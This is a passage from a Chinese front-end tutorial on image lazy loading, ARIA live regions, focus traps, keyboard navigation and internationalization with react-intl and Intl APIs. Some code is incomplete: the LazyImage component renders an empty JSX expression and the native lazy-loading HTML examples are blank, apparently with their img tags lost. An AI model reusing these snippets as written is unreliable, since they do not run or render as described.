  const [isLoaded, setIsLoaded] = useState(false);
  const [isInView, setIsInView] = useState(false);
  const [error, setError] = useState(null);
  const imgRef = useRef(null);

  useEffect(() => {
    const element = imgRef.current;
    if (!element) return;

    const observer = new IntersectionObserver(
      ([entry]) => {
        if (entry.isIntersecting) {
          setIsInView(true);
          observer.unobserve(element);
        }
      },
      { rootMargin, threshold }
    );

    observer.observe(element);
    return () => observer.disconnect();
  }, [rootMargin, threshold]);

  const handleLoad = useCallback(() => setIsLoaded(true), []);
  const handleError = useCallback((e) => setError(e), []);

  return { imgRef, isLoaded, isInView, error, handleLoad, handleError };
}

// 懒加载图片组件
function LazyImage({
  src, alt, placeholder, width, height,
  rootMargin, threshold, className, ...props
}) {
  const {
    imgRef, isLoaded, isInView, error,
    handleLoad, handleError,
  } = useLazyImage({ rootMargin, threshold });

  return (
    <div
      ref={imgRef}
      className={`lazy-image-wrapper ${className || ''}`}
      style={{
        width: width || '100%',
        height: height || 'auto',
        position: 'relative',
        overflow: 'hidden',
        background: '#f0f0f0',
      }}
    >
      {/* 占位符 */}
      {!isLoaded && !error && (
        <div
          style={{
            position: 'absolute',
            inset: 0,
            display: 'flex',
            alignItems: 'center',
            justifyContent: 'center',
          }}
        >
          {placeholder || <PlaceholderSVG />}
        </div>
      )}

      {/* 实际图片 */}
      {isInView && (
        
      )}
    </div>
  );
}

// 图片画廊示例
function ImageGallery({ images }) {
  return (
    <div style={{ display: 'grid', gridTemplateColumns: 'repeat(auto-fill, minmax(250px, 1fr))', gap: '1rem' }}>
      {images.map((image, index) => (
        <LazyImage
          key={image.id}
          src={image.url}
          alt={image.description}
          width="100%"
          height="200px"
          rootMargin="300px"
        />
      ))}
    </div>
  );
}
```

### 31.3 Native loading="lazy"

```html
<!-- 浏览器原生懒加载（最简单的方式） -->


<!-- 配合 srcset 和 sizes -->

```

```javascript
// 检测浏览器是否支持原生懒加载
function supportsNativeLazyLoading() {
  return 'loading' in HTMLImageElement.prototype;
}

// 根据支持情况选择策略
function initLazyLoading() {
  if (supportsNativeLazyLoading()) {
    // 浏览器原生支持，无需额外处理
    console.log('使用原生懒加载');
  } else {
    // 使用 Intersection Observer polyfill
    console.log('使用 Intersection Observer 懒加载');
    const loader = new LazyImageLoader();
  }
}
```

### 31.4 占位符策略

```css
/* 1. 低质量图片占位符（LQIP） */
.lqip {
  /* 使用极小的模糊图片作为占位符 */
  filter: blur(20px);
  transform: scale(1.1); /* 隐藏模糊边缘 */
  transition: filter 0.3s ease, transform 0.3s ease;
}

.lqip.loaded {
  filter: none;
  transform: scale(1);
}

/* 2. 骨架屏占位符 */
.skeleton {
  background: linear-gradient(90deg, #f0f0f0 25%, #e0e0e0 50%, #f0f0f0 75%);
  background-size: 200% 100%;
  animation: skeleton-loading 1.5s infinite;
}

@keyframes skeleton-loading {
  0% { background-position: 200% 0; }
  100% { background-position: -200% 0; }
}

/* 3. SVG 占位符 */
.svg-placeholder {
  background: #f5f5f5;
  display: flex;
  align-items: center;
  justify-content: center;
}

/* 4. 颜色占位符（从图片提取主色调） */
.color-placeholder {
  /* 通过 JavaScript 从图片提取主色 */
  background-color: var(--dominant-color, #f0f0f0);
}
```

```javascript
// 使用 BlurHash 生成占位符
// BlurHash 将图片编码为短字符串，可快速解码为模糊预览
import { decode } from 'blurhash';

function BlurHashPlaceholder({ hash, width, height }) {
  const canvasRef = useRef(null);

  useEffect(() => {
    const canvas = canvasRef.current;
    const ctx = canvas.getContext('2d');
    const pixels = decode(hash, width, height);
    const imageData = new ImageData(pixels, width, height);
    ctx.putImageData(imageData, 0, 0);
  }, [hash, width, height]);

  return (
    <canvas
      ref={canvasRef}
      width={width}
      height={height}
      style={{ width: '100%', height: '100%', objectFit: 'cover' }}
    />
  );
}
```

---

## 32. 无障碍进阶（Accessibility）

无障碍（Accessibility，简称 a11y）确保所有用户，包括残障人士，都能使用你的 Web 应用。

### 32.1 ARIA Live Regions

ARIA Live Regions 允许屏幕阅读器动态播报页面内容变化。

```html
<!-- 1. 基本 Live Region -->
<div aria-live="polite">
  <!-- 内容变化时，屏幕阅读器会在当前播报结束后读出 -->
  <p>新消息已收到</p>
</div>

<!-- 2. 紧急 Live Region -->
<div aria-live="assertive">
  <!-- 内容变化时，屏幕阅读器会立即中断当前播报 -->
  <p>错误：网络连接已断开</p>
</div>

<!-- 3. 状态消息 -->
<div role="status" aria-live="polite">
  <!-- 适用于加载状态、搜索结果数量等 -->
  <p>找到 42 个结果</p>
</div>

<!-- 4. 警告消息 -->
<div role="alert" aria-live="assertive">
  <!-- 适用于错误、警告等紧急消息 -->
  <p>表单提交失败，请检查输入</p>
</div>

<!-- 5. 日志区域 -->
<div role="log" aria-live="polite">
  <!-- 适用于聊天消息、活动日志等 -->
  <p>用户A：你好！</p>
</div>

<!-- 6. 计时器 -->
<div role="timer" aria-live="off" aria-atomic="true">
  <!-- 计时器通常不需要持续播报 -->
  <span>05:30</span>
</div>
```

```javascript
// 动态更新 Live Region
class LiveRegionManager {
  constructor() {
    // 创建隐藏的 live region 容器
    this.container = document.createElement('div');
    this.container.setAttribute('aria-live', 'polite');
    this.container.setAttribute('aria-atomic', 'true');
    this.container.className = 'sr-only'; // 视觉上隐藏
    document.body.appendChild(this.container);
  }

  // 播报消息
  announce(message, priority = 'polite') {
    this.container.setAttribute('aria-live', priority);
    // 清空后重新设置，确保触发变化
    this.container.textContent = '';
    requestAnimationFrame(() => {
      this.container.textContent = message;
    });
  }

  // 播报紧急消息
  alert(message) {
    this.announce(message, 'assertive');
  }

  destroy() {
    this.container.remove();
  }
}

// 使用
const liveRegion = new LiveRegionManager();

// 搜索结果更新
function onSearchComplete(count) {
  liveRegion.announce(`搜索完成，找到 ${count} 个结果`);
}

// 表单错误
function onFormError(errors) {
  liveRegion.alert(`表单有 ${errors.length} 个错误，请检查`);
}
```

### 32.2 Role 属性详解

```html
<!-- Landmark Roles（地标角色） -->
<header role="banner">网站头部</header>
<nav role="navigation">导航</nav>
<main role="main">主要内容</main>
<aside role="complementary">侧边栏</aside>
<footer role="contentinfo">页脚</footer>
<search role="search">搜索区域</search>

<!-- Widget Roles（组件角色） -->
<div role="button" tabindex="0">自定义按钮</div>
<div role="tablist">
  <button role="tab" aria-selected="true" aria-controls="panel-1">标签1</button>
  <button role="tab" aria-selected="false" aria-controls="panel-2">标签2</button>
</div>
<div role="tabpanel" id="panel-1">面板1内容</div>
<div role="tabpanel" id="panel-2" hidden>面板2内容</div>

<!-- 结构角色 -->
<div role="list">
  <div role="listitem">项目1</div>
  <div role="listitem">项目2</div>
</div>

<!-- 状态角色 -->
<div role="alert">这是一个警告</div>
<div role="status">加载中...</div>
<div role="progressbar" aria-valuenow="50" aria-valuemin="0" aria-valuemax="100">
  50%
</div>
```

### 32.3 Focus Trap 实现

焦点陷阱（Focus Trap）确保在模态框、对话框等场景中，Tab 键只在指定区域内循环。

```javascript
class FocusTrap {
  constructor(element) {
    this.element = element;
    this.previouslyFocusedElement = null;
    this.isActive = false;

    this.handleKeyDown = this.handleKeyDown.bind(this);
  }

  // 获取可聚焦元素
  getFocusableElements() {
    const selector = [
      'a[href]',
      'button:not([disabled])',
      'input:not([disabled])',
      'select:not([disabled])',
      'textarea:not([disabled])',
      '[tabindex]:not([tabindex="-1"])',
      '[contenteditable]',
    ].join(', ');

    return Array.from(this.element.querySelectorAll(selector))
      .filter(el => !el.hasAttribute('disabled') && !el.getAttribute('aria-hidden'));
  }

  // 激活焦点陷阱
  activate() {
    if (this.isActive) return;

    // 保存当前焦点元素
    this.previouslyFocusedElement = document.activeElement;

    // 监听键盘事件
    document.addEventListener('keydown', this.handleKeyDown);

    // 将焦点移到容器内第一个可聚焦元素
    const focusableElements = this.getFocusableElements();
    if (focusableElements.length > 0) {
      focusableElements[0].focus();
    }

    this.isActive = true;
  }

  // 停用焦点陷阱
  deactivate() {
    if (!this.isActive) return;

    document.removeEventListener('keydown', this.handleKeyDown);

    // 恢复之前的焦点
    if (this.previouslyFocusedElement) {
      this.previouslyFocusedElement.focus();
    }

    this.isActive = false;
  }

  // 处理键盘事件
  handleKeyDown(event) {
    if (event.key !== 'Tab') return;

    const focusableElements = this.getFocusableElements();
    if (focusableElements.length === 0) return;

    const firstElement = focusableElements[0];
    const lastElement = focusableElements[focusableElements.length - 1];

    // Shift + Tab：从第一个元素跳到最后一个
    if (event.shiftKey) {
      if (document.activeElement === firstElement) {
        event.preventDefault();
        lastElement.focus();
      }
    }
    // Tab：从最后一个元素跳到第一个
    else {
      if (document.activeElement === lastElement) {
        event.preventDefault();
        firstElement.focus();
      }
    }
  }
}

// 使用示例
function openModal() {
  const modal = document.getElementById('modal');
  modal.showModal();

  const trap = new FocusTrap(modal);
  trap.activate();

  // 关闭模态框时停用
  modal.addEventListener('close', () => trap.deactivate(), { once: true });
}
```

### 32.4 键盘导航完整实现

```javascript
// 完整的键盘导航管理器
class KeyboardNavigation {
  constructor(container, options = {}) {
    this.container = container;
    this.orientation = options.orientation || 'vertical'; // 'vertical' | 'horizontal' | 'both'
    this.itemSelector = options.itemSelector || '[role="menuitem"], [role="option"], li';
    this.wrap = options.wrap !== false;
    this.onSelect = options.onSelect || (() => {});

    this.items = [];
    this.currentIndex = -1;

    this.handleKeyDown = this.handleKeyDown.bind(this);
    this.init();
  }

  init() {
    this.container.addEventListener('keydown', this.handleKeyDown);
    this.refreshItems();
  }

  refreshItems() {
    this.items = Array.from(this.container.querySelectorAll(this.itemSelector));
    this.items.forEach((item, index) => {
      item.setAttribute('tabindex', index === 0 ? '0' : '-1');
    });
  }

  handleKeyDown(event) {
    const { key } = event;
    let handled = false;

    switch (key) {
      case 'ArrowDown':
      case 'ArrowRight':
        if (this.shouldHandleKey(key)) {
          this.moveFocus(1);
          handled = true;
        }
        break;

      case 'ArrowUp':
      case 'ArrowLeft':
        if (this.shouldHandleKey(key)) {
          this.moveFocus(-1);
          handled = true;
        }
        break;

      case 'Home':
        this.setFocus(0);
        handled = true;
        break;

      case 'End':
        this.setFocus(this.items.length - 1);
        handled = true;
        break;

      case 'Enter':
      case ' ':
        if (document.activeElement && this.items.includes(document.activeElement)) {
          this.onSelect(document.activeElement, this.currentIndex);
          handled = true;
        }
        break;

      case 'Escape':
        this.container.focus();
        handled = true;
        break;

      // 字符跳转（首字母快速定位）
      default:
        if (key.length === 1 && key.match(/\S/)) {
          this.jumpToByCharacter(key);
          handled = true;
        }
    }

    if (handled) {
      event.preventDefault();
      event.stopPropagation();
    }
  }

  shouldHandleKey(key) {
    if (this.orientation === 'both') return true;
    if (this.orientation === 'vertical') return ['ArrowDown', 'ArrowUp'].includes(key);
    if (this.orientation === 'horizontal') return ['ArrowLeft', 'ArrowRight'].includes(key);
    return false;
  }

  moveFocus(delta) {
    if (this.items.length === 0) return;

    let newIndex = this.currentIndex + delta;

    if (this.wrap) {
      newIndex = (newIndex + this.items.length) % this.items.length;
    } else {
      newIndex = Math.max(0, Math.min(this.items.length - 1, newIndex));
    }

    this.setFocus(newIndex);
  }

  setFocus(index) {
    if (index < 0 || index >= this.items.length) return;

    // 更新 tabindex
    if (this.currentIndex >= 0) {
      this.items[this.currentIndex].setAttribute('tabindex', '-1');
    }

    this.currentIndex = index;
    this.items[index].setAttribute('tabindex', '0');
    this.items[index].focus();
  }

  jumpToByCharacter(char) {
    const startIndex = this.currentIndex + 1;
    const searchItems = [
      ...this.items.slice(startIndex),
      ...this.items.slice(0, startIndex),
    ];

    const match = searchItems.find(item => {
      const text = (item.textContent || '').trim().toLowerCase();
      return text.startsWith(char.toLowerCase());
    });

    if (match) {
      const index = this.items.indexOf(match);
      this.setFocus(index);
    }
  }

  destroy() {
    this.container.removeEventListener('keydown', this.handleKeyDown);
  }
}

// 使用示例：可访问的下拉菜单
function createAccessibleDropdown() {
  const menu = document.querySelector('[role="menu"]');
  const nav = new KeyboardNavigation(menu, {
    orientation: 'vertical',
    itemSelector: '[role="menuitem"]',
    onSelect: (item) => item.click(),
  });
}
```

---

## 33. 前端国际化进阶

国际化（i18n）是使应用支持多种语言和地区的过程。现代前端国际化不仅仅是翻译文本，还涉及复数处理、日期时间格式化、RTL 布局等复杂场景。

### 33.1 ICU MessageFormat

ICU MessageFormat 是国际通用的消息格式标准，支持变量插值、复数、选择等高级功能。

```javascript
// ICU MessageFormat 语法示例
const messages = {
  // 基本插值
  greeting: '你好, {name}!',

  // 复数处理
  itemCount: '{count, plural, =0 {没有项目} =1 {1 个项目} other {{count} 个项目}}',

  // 选择（性别等）
  inviteMessage: '{gender, select, male {他} female {她} other {他们}}邀请了 {count} 位朋友',

  // 序数
  ranking: '你排名第 {rank, selectordinal, one {#st} two {#nd} few {#rd} other {#th}}',

  // 嵌套使用
  complexMessage: '{count, plural, =0 {没有未读消息} other {{gender, select, male {他} female {她} other {他们}}有 {count} 条未读消息}}',
};

// 使用 intl-messageformat 解析
import IntlMessageFormat from 'intl-messageformat';

function formatMessage(key, values = {}) {
  const message = new IntlMessageFormat(messages[key], 'zh-CN');
  return message.format(values);
}

console.log(formatMessage('greeting', { name: '小明' }));
// "你好, 小明!"

console.log(formatMessage('itemCount', { count: 5 }));
// "5 个项目"

console.log(formatMessage('itemCount', { count: 0 }));
// "没有项目"

console.log(formatMessage('inviteMessage', { gender: 'female', count: 3 }));
// "她邀请了 3 位朋友"
```

### 33.2 React 国际化实践

```jsx
import { IntlProvider, useIntl, FormattedMessage, FormattedNumber, FormattedDate } from 'react-intl';

// 消息定义
const messages = {
  'zh-CN': {
    'app.title': '我的应用',
    'app.welcome': '欢迎回来, {name}!',
    'user.followers': '{count, plural, =0 {没有粉丝} =1 {1 个粉丝} other {{count} 个粉丝}}',
    'cart.items': '购物车中有 {count, plural, =0 {件商品} =1 {1 件商品} other {{count} 件商品}}',
    'notification.new': '你有 {count, number} 条新消息',
    'date.posted': '发布于 {date, date, long}',
  },
  'en': {
    'app.title': 'My App',
    'app.welcome': 'Welcome back, {name}!',
    'user.followers': '{count, plural, =0 {No followers} =1 {1 follower} other {{count} followers}}',
    'cart.items': '{count, plural, =0 {No items in cart} =1 {1 item in cart} other {{count} items in cart}}',
    'notification.new': 'You have {count, number} new messages',
    'date.posted': 'Posted on {date, date, long}',
  },
};

// 语言检测
function getLocale() {
  const saved = localStorage.getItem('locale');
  if (saved) return saved;

  const browserLang = navigator.language;
  const supportedLocales = Object.keys(messages);
  return supportedLocales.find(locale => browserLang.startsWith(locale)) || 'zh-CN';
}

// 国际化提供者
function I18nProvider({ children }) {
  const [locale, setLocale] = useState(getLocale());

  const switchLocale = (newLocale) => {
    setLocale(newLocale);
    localStorage.setItem('locale', newLocale);
    document.documentElement.lang = newLocale;
  };

  return (
    <IntlProvider locale={locale} messages={messages[locale]}>
      <LocaleContext.Provider value={{ locale, switchLocale }}>
        {children}
      </LocaleContext.Provider>
    </IntlProvider>
  );
}

// 使用国际化的组件
function UserProfile({ user }) {
  const intl = useIntl();

  return (
    <div>
      {/* 文本消息 */}
      <h1>
        <FormattedMessage id="app.welcome" values={{ name: user.name }} />
      </h1>

      {/* 复数 */}
      <p>
        <FormattedMessage id="user.followers" values={{ count: user.followers }} />
      </p>

      {/* 数字格式化 */}
      <p>
        <FormattedMessage id="notification.new" values={{ count: user.unreadMessages }} />
      </p>
      {/* 或直接使用组件 */}
      <p>
        价格: <FormattedNumber value={user.balance} style="currency" currency="CNY" />
      </p>

      {/* 日期格式化 */}
      <p>
        <FormattedMessage id="date.posted" values={{ date: new Date(user.joinDate) }} />
      </p>
      {/* 或直接使用组件 */}
      <p>
        注册时间: <FormattedDate value={new Date(user.joinDate)} year="numeric" month="long" day="numeric" />
      </p>

      {/* 编程式使用 */}
      <button onClick={() => {
        const message = intl.formatMessage(
          { id: 'cart.items' },
          { count: user.cartItems }
        );
        showToast(message);
      }}>
        查看购物车
      </button>
    </div>
  );
}
```

### 33.3 日期时间格式化

```javascript
// 使用 Intl.DateTimeFormat API
function formatDate(date, locale = 'zh-CN', options = {}) {
  return new Intl.DateTimeFormat(locale, options).format(date);
}

const date = new Date('2024-01-15T14:30:00');

// 基本格式化
formatDate(date, 'zh-CN', { dateStyle: 'full' });
// "2024年1月15日星期一"

formatDate(date, 'zh-CN', { dateStyle: 'long' });
// "2024年1月15日"

formatDate(date, 'zh-CN', { dateStyle: 'medium' });
// "2024年1月15日"

formatDate(date, 'zh-CN', { dateStyle: 'short' });
// "2024/1/15"

// 时间格式化
formatDate(date, 'zh-CN', { timeStyle: 'full' });
// "北京时间 14:30:00"

formatDate(date, 'zh-CN', { timeStyle: 'short' });
// "下午2:30"

// 自定义格式
formatDate(date, 'zh-CN', {
  year: 'numeric',
  month: 'long',
  day: 'numeric',
  weekday: 'long',
  hour: '2-digit',
  minute: '2-digit',
});
// "2024年1月15日星期一 下午02:30"

// 相对时间格式化
function formatRelativeTime(value, unit, locale = 'zh-CN') {
  const rtf = new Intl.RelativeTimeFormat(locale, { numeric: 'auto' });
  return rtf.format(value, unit);
}

formatRelativeTime(-1, 'day');  // "昨天"
formatRelativeTime(-2, 'day');  // "前天"
formatRelativeTime(3, 'month'); // "3个月后"
formatRelativeTime(-1, 'hour'); // "1小时前"
```

### 33.4 RTL 布局支持

RTL（Right-to-Left）布局用于阿拉伯语、希伯来语等从右到左书写的语言。

```css
/* RTL 布局策略 */

/* 1. 使用逻辑属性（推荐） */
.element {
  /* 物理属性（不推荐） */
  /* margin-left: 1rem; */
  /* padding-right: 2rem; */
  /* text-align: left; */
  /* border-left: 2px solid; */

  /* 逻辑属性（推荐）- 自动适配 LTR/RTL */
  margin-inline-start: 1rem;
  padding-inline-end: 2rem;
  text-align: start;
  border-inline-start: 2px solid;

  /* 逻辑属性对照表 */
  /* margin-left → margin-inline-start */
  /* margin-right → margin-inline-end */
  /* padding-left → padding-inline-start */
  /* padding-right → padding-inline-end */
  /* border-left → border-inline-start */
  /* border-right → border-inline-end */
  /* left → inset-inline-start */
  /* right → inset-inline-end */
  /* text-align: left → text-align: start */
  /* text-align: right → text-align: end */
  /* float: left → float: inline-start */
  /* float: right → float: inline-end */
}

/* 2. 使用 dir 属性选择器 */
[dir="rtl"] .sidebar {
  margin-right: 0;
  margin-left: 1rem;
}

/* 3. 使用 :dir() 伪类 */
.sidebar:dir(rtl) {
  margin-right: 0;
  margin-left: 1rem;
}

/* 4. Flexbox 和 Grid 自动适配 */
.container {
  display: flex;
  /* flexbox 默认会根据 dir 自动翻转 */
  gap: 1rem;
}

/* 5. CSS 自定义属性切换 */
:root {
  --start: left;
  --end: right;
}

[dir="rtl"] {
  --start: right;
  --end: left;
}

.element {
  float: var(--start);
  text-align: var(--start);
}
```

```javascript
// React RTL 支持
function RTLSupport({ children }) {
  const [direction, setDirection] = useState('ltr');

  useEffect(() => {
    document.documentElement.dir = direction;
    document.documentElement.setAttribute('lang', direction === 'rtl' ? 'ar' : 'zh-CN');
  }, [direction]);

  return (
    <div dir={direction}>
      <button onClick={() => setDirection(d => d === 'ltr' ? 'rtl' : 'ltr')}>
        切换方向
      </button>
      {children}
    </div>
  );
}
```

### 33.5 国际化最佳实践

```javascript
// 1. 消息提取与管理
// 使用 formatjs/cli 提取消息
// npx formatjs extract 'src/**/*.tsx' --out-file lang/zh-CN.json

// 2. 语言包懒加载
const loadMessages = async (locale) => {
  switch (locale) {
    case 'zh-CN':
      return (await import('./locales/zh-CN.json')).default;
    case 'en':
      return (await import('./locales/en.json')).default;
    default:
      return (await import('./locales/zh-CN.json')).default;
  }
};

// 3. 数字格式化
function formatNumber(value, locale = 'zh-CN', options = {}) {
  return new Intl.NumberFormat(locale, options).format(value);
}

// 货币
formatNumber(1234.56, 'zh-CN', { style: 'currency', currency: 'CNY' });
// "¥1,234.56"

formatNumber(1234.56, 'en-US', { style: 'currency', currency: 'USD' });
// "$1,234.56"

// 百分比
formatNumber(0.856, 'zh-CN', { style: 'percent', minimumFractionDigits: 1 });
// "85.6%"

// 4. 列表格式化
function formatList(items, locale = 'zh-CN', options = {}) {
  return new Intl.ListFormat(locale, options).format(items);
}

formatList(['苹果', '香蕉', '橙子'], 'zh-CN');
// "苹果、香蕉和橙子"

formatList(['Apple', 'Banana', 'Orange'], 'en', { type: 'disjunction' });
// "Apple, Banana, or Orange"
```

---

以上内容涵盖了响应式设计、CSS 预处理器、CSS-in-JS、前端路由、表单处理、图片懒加载、无障碍和前端国际化等前端进阶技术的完整知识体系。
